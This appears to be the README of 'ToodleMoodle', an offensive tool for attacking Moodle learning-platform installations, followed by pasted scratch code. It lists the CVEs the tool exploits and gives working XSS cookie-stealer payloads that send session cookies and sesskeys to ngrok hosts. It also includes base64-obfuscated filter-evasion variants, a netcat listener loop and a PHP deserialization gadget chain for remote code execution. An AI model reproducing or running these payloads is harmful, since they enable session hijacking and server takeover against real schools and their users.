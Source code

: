 # ToodleMoodle

![ToodleMoodle](images/ReadMeMoodleImage.png?raw=true)

## Installation

TODO: Write installation instructions here

## Usage

Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:

``` html
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>
<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>
```

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

The vulnerabilities we use are:

* Dashboard XSS CVE-2019-3847
* Assignment XSS CVE-2017-2578
* SQL Injection / Privilege escalation CVE-2017-2641
* RCE (must be teacher) CVE-2018-1133
* RCE (attacker needs permissions to create a quiz or at least be able to import questions)
CVE-2018-14630

https://packetstormsecurity.com/files/149426/Moodle-3.x-PHP-Unserialize-Remote-Code-Execution.html CVE-2018-14630

Features:

* Scan: the tool can detect version
* Exploit RCE 2018-1133 and CVE-2018-14630
* Exploit 2017-2641 SQL injection (via user pref)
* Add XSS to account dashboard, use clickjacker, using CVE-2019-3847 to hijack
session

## Development

Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```
or
```
crystal build src/tmoodle.cr && ./tmoodle
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```

Use the  --release flag for an optimized production build.

### Docker image setup
```
bin/moodle-docker-compose up
```

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer

// Legacy format containing PHP serialisation.
            https://github.com/moodle/moodle/archive/v3.1.13.zip
            foreach ($data['#']['answer'] as $answerxml) {
                $ans = $format->import_answer($answerxml);
                $options = unserialize(stripslashes($ans->feedback['text']));
                // $payload = 
                // "O:15:\"\\core\\lock\\lock\":3:{s:6:\"\0*\0key\";O:23:\"\\core_availability\\tree\":1:{s:11:\"\0*\0children\";O:24:\"\\core\\dml\\recordset_walk\":2:{s:11:\"\0*\0callback\";s:6:\"system\";s:12:\"\0*\0recordset\";O:25:\"question_attempt_iterator\":2:{s:7:\"\0*\0quba\";O:26:\"question_usage_by_activity\":1:{s:19:\"\0*\0questionattempts\";a:1:{s:4:\"1337\";s:13:\"echo aawhoami\";}}s:8:\"\0*\0slots\";a:1:{i:0;i:1337;}}}}s:9:\"draggroup\";s:1:\"1\";s:8:\"infinite\";i:1;}";
                // $options = unserialize($payload);//unserialize(stripslashes($ans->feedback['text']));
                // echo $payload;
                
                // var_dump($options);
O:15:"\core\lock\lock":3:{s:6:"�*�key";O:23:"\core_availability\tree":1:{s:11:"�*�children";O:24:"\core\dml\recordset_walk":2:{s:11:"�*�callback";s:6:"system";s:12:"�*�recordset";O:25:"question_attempt_iterator":2:{s:7:"�*�quba";O:26:"question_usage_by_activity":1:{s:19:"�*�questionattempts";a:1:{s:4:"1337";s:13:"echo aawhoami";}}s:8:"�*�slots";a:1:{i:0;i:1337;}}}}s:9:"draggroup";s:1:"1";s:8:"infinite";i:1;}
